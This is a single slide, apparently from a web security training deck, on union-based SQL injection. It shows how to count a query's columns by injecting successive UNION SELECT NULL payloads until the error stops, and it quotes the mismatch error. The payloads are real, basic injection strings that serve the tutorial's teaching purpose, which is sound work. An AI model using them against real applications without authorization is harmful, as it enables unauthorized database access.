

# Exploiting Union-Based SQLi
Determining the number of columns required in an SQL injection UNION  attack using NULL VALUES:
select	title,	cost	from	product	where	id	=1	UNION	SELECT	NULL--
Incrementally inject a series of UNION SELECT payloads specifying a different  number of null values until you no longer get an error
'	UNION	SELECT	NULL--
All	queries	combined	using	a	UNION,	INTERSECT	or	EXCEPT	operator	must	have	an	equal	number	of	expressions	in  their	target		lists.
UNION	SELECT	NULL--
UNION	SELECT	NULL,	NULL--